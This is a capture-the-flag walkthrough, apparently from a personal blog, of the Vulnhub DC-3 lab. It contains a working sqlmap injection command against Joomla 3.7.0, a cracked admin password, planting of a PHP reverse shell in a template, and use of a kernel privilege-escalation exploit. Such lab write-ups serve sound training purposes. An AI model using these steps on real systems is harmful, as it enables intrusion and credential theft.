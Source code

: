 ```yaml
---
title:     "Vulnhub - DC 3"
tags: [joomla,easy,php,kernel_exploit,sqli]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: <https://www.vulnhub.com/entry/dc-3,312/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/4.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/6.png)

>-D = To denote which database

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/7.png)

It looks like ``#_users`` is interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/9.png)

We got a hash for admin so lets try it with john 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/14.png)

Found there is an exploit from searchsploit

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/17.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/18.png)

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/19.png)

Got ROOT!!









